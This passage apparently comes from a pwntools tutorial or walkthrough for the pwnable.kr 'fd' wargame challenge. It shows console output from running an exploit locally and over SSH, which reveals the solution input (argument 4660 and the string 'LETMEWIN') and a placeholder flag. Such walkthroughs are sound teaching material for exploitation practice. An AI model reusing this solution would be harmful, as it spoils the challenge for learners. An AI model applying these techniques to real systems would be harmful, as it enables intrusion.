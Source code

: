 ### Running the Exploit Locally

To run the exploit on your local machine, without running on `pwnable.kr`'s servers, just add the `LOCAL` flag to the command line.  Note that you'll need to create a local file called `flag` which the exploit will dump.

```text
# python3 template.py DEBUG LOCAL
[*] '/home/pwntools/pwntools/fd/fd'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/pwntools/pwntools/fd/fd' argv=[b'/home/pwntools/pwntools/fd/fd', b'4660'] : pid 624
[DEBUG] Sent 0x9 bytes:
    b'LETMEWIN\n'
[+] Receiving all data: Done (35B)
[DEBUG] Received 0xc bytes:
    b'good job :)\n'
[*] Process '/home/pwntools/pwntools/fd/fd' stopped with exit code 0 (pid 624)
[DEBUG] Received 0x17 bytes:
    b'Flag{This_Is_The_Flag}\n'
[+] Flag{This_Is_The_Flag}
```

### Running the Exploit Remotely

Now we can run the exploit, and see what happens!  The last line is the flag.

First, a local copy of the binary is loaded into memory, to set `context.binary` so that everything is set up for Intel i386 architecture.  We can see some information about the binary printed out

```text
$ python exploit.py
[*] '/home/pwntools/pwntools/fd/fd'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Connecting to pwnable.kr on port 2222: Done
```

Next, a connection to the pwnable.kr server is established.  A temporary directory is created, so that if we need to create files we can (we don't for this challenge, but it's a useful feature) and symlinks are created for all of the files in `/home/fd`.

````text
[*] fd@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Opening new channel: 'pwd': Done
[+] Receiving all data: Done (9B)
[*] Closed SSH channel with pwnable.kr
[*] Working directory: '/tmp/tmp.9VrXb97Lur'
[+] Opening new channel: 'ln -s /home/fd/* .': Done
[+] Receiving all data: Done (0B)
[*] Closed SSH channel with pwnable.kr
````
